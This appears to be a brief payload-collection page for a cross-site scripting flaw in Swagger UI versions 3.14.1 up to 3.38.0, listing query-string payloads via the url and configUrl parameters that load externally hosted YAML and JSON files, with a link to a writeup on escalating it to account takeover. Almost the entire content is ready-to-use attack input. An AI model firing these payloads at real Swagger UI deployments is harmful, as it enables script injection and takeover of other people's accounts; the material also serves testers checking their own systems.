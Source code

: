 # Swagger UI >=3.14.1 < 3.38.0 XSS 

- Swagger UI version affected: `>=3.14.1 < 3.38.0`

## Payloads

### `url`
`?url=https://raw.githubusercontent.com/mujtabasec/swagger-xss/main/xss-domain.yaml`
`?url=https://raw.githubusercontent.com/mujtabasec/swagger-xss/main/xss-fetch.yaml`
### `configUrl`

`?configUrl=https://raw.githubusercontent.com/mujtabasec/swagger-xss/main/config.json`

**More info at**: https://www.vidocsecurity.com/blog/hacking-swagger-ui-from-xss-to-account-takeovers/
